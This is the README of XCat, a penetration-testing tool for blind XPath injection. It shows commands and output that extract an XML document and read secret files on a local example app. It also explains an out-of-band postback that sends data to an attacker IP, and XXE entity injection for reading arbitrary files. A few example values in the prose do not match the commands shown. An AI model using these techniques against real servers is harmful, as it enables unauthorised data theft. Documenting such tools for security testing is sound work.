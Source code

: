About XCat
==========

XCat is a command line program that aides in the exploitation of blind XPath injection vulnerabilities. It can be used
to retrieve the whole XML document being processed by a vulnerable XPath query, read arbitrary files on the hosts filesystem
and utilize out of bound HTTP requests to make the server send data directly to xcat.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request)
and it requires you to manually identify the exploit first, this does not do that for you.

Features
--------
  - Exploits both GET and POST attacks
  - Extracts all nodes, comments, attributes and data from the entire XML document
  - Small and lightweight (only a few pure-python dependencies)
  - Parallel requests
  - XPath 2.0 supported (with graceful degrading to 1.0)
  - Advanced data postback through HTTP (see below)
  - Arbitrarily read XML files on the servers file system via the doc() function (see below)
  - Arbitrarily read text files on the servers file system via crafted SYSTEM entities


**Features planned for future releases:**

  - [Regex](http://www.w3.org/TR/xpath-functions/#func-matches) pattern matching to reduce character search space
  - [Unicode normalization](http://www.w3.org/TR/xpath-functions/#func-normalize-unicode)
  - Error based retrieval

Installation
------------
You can install XCat via pip: `pip install xcat`. You should then have an `xcat` command available. XCat comes with 
an example application you can test against, this can be found in the `example_application` directory. Check out it's 
readme file to see how to run it.


Examples
--------
If you run a windows machine you can install Jython and start the example application (example_application/ironpython_site.py).
The syntax for a simple command you can execute against this server is:

    xcat --method=GET http://localhost:8080 title=Foundation title "1 results found" run retrieve

This command specifies the HTTP method (GET), target URL (our localhost server), the GET or POST) data to send (title=Bible),
the vulnerable parameter (title) and a string to indicate a true response (Book found). Executing this will retrieve
the entire XML file being queried.

    >> xcat --method=GET http://localhost:8080 title=Foundation title "1 results found" run retrieve
    Injecting using FunctionCall
    Detecting features...
    Supported features: String to codepoints, XPath 2, Read local XML files, Substring search speedup
    Retrieving /*[1]
    <?xml version="1.0" encoding="utf-8"?>
    <library>
	    <rentals>
		    <books>
                <!-- A comment -->
                <book>
    ...

The the retrieval of documents can be sped up in a number of different ways, such as using the doc function to make the
server send data directly to XCat (explained in more detail below). Each of the techniques is called a feature and can
be viewed by using the `test_injection` command. This will display information about the injection, including the
type (integer, string, path name) and various features that XCat has is able to use. XCat knows which features
are best and will gracefully degrade if they fail for any reason.

    >> xcat --method=GET --public-ip="localhost" http://localhost:8080 title=Foundation title "1 results found" test_injection
    Testing parameter title:
    FunctionCallInjection:          /lib/something[function(?)]
        - EfficientSubstringSearch
        - OOBDocFeature
        - CodepointSearch
        - XPath2
        - DocFeature
        - EntityInjection

Usage
-----
Before specifying what data you want to extract from the injection you need to tell XCat how to exploit it. XCat can't
do this for you, so you have to do the initial hard work of finding a vulnerability. XCat needs a target URL it can
reach, URL encoded arguments, the vulnerable parameter and a string to match in the response. The initial data given
must be valid and trigger either a true or false response.

    >> xcat --help
    Usage: xcat [OPTIONS] TARGET ARGUMENTS TARGET_PARAMETER MATCH_STRING
                      COMMAND [ARGS]...

    Options:
      --method TEXT                   HTTP method to use
      --true                          match_string indicates a true response
      --false                         match_string indicates a false response
      --loglevel [debug|info|warn|error]
      --logfile FILENAME
      --public-ip TEXT                Public IP address to use with OOB
                                      connections (use 'autodetect' to auto-detect
                                      value)
      --help                          Show this message and exit.
    
    Commands:
      run
      test_injection  Test parameter for injectability

The two most useful commands are `run retrieve` and `run file_shell`. The first allows you to retrieve the whole document
being processed by the query in either XML or JSON format and specify a file for it to be dumped to.

    Usage: xcat run retrieve [OPTIONS]

    Attempt to retrieve the whole XML document

    Options:
      --query TEXT         Query to retrieve. Defaults to root node (/*[1])
      --output FILENAME    Location to output XML to
      --format [xml|json]  Format for output
      --help               Show this message and exit.

The second command takes no additional arguments but enables you to read arbitrary files on the filesystem. This only
works if the vulnerable parameter supports the doc feature (and optionally entity injection):

    >> xcat --method=GET --public-ip="localhost" http://localhost:8080 title=Foundation title "1 results found" run file_shell
    Injecting using FunctionCall
    Detecting features...
    Supported features: XPath 2, String to codepoints, External DOC function, Entity injection, Substring search speedup
    There are three ways to read files on the file system using XPath:
     1. inject: Can read arbitrary text files as long as they do not contain any XML
     2. comment: Can read arbitrary text files containing XML snippets, but cannot contain '-->'
     3. doc: Reads valid XML files - does not support any other file type. Supports remote file URI's (http) and local ones.
    Type doc, inject or comment to switch modes. Defaults to inject
    Type uri to read the URI of the document being queried
    Note: The URI should have a protocol, e.g: file:///test.xml. Bad things may happen if the URI does not exist, and it is best to use absolute paths.
    >> uri
    URI: file:///C:/Users/x/xcat/src/example_application/input.xml
    >> file:///C:/Users/x/xcat/src/example_application/
    secret.txt
    secret.xml
    ...
    >> doc
    Switched to doc mode
    >> file:///C:/Users/x/xcat/src/example_application/secret.xml
    <?xml version="1.0" encoding="utf-8"?>
    <this_contains_xml>
        <node>
            hello
    ...
    >> inject
    Switched to inject mode
    >> file:///C:/Users/x/xcat/src/example_application/secret.txt
    This is a secret file. Do not read me!

### Simple usage with the example application
Check out the [readme](src/example_application) to try out XCat with the provided example application.


HTTP Postback / doc function and entity injection
----------------------------

Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function
called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents
from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working
then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP
server within the program which listens on a specified port and by then calling the doc() function with the currently
targeted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your
IP (requires the port to be forwarded and/or a public IP) in the following format similar to:

	http://YOUR_IP/?data=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing
you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using
the fileshell command (shown above) and enter the file path for an XML file.

This can be taken one step further by using entity injection to read arbitrary files on the file system. XCat does this
by starting a HTTP server and makes the vulnerable application load an XML file from it. This XML file contains crafted
DOCTYPE declarations that cause the application to include local files in the XML file as it is being parsed, the contents
of which can then be queried and sent back to XCat in another HTTP request.

[This OWASP wiki page](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) covers XML entity
injection this technique in more detail.
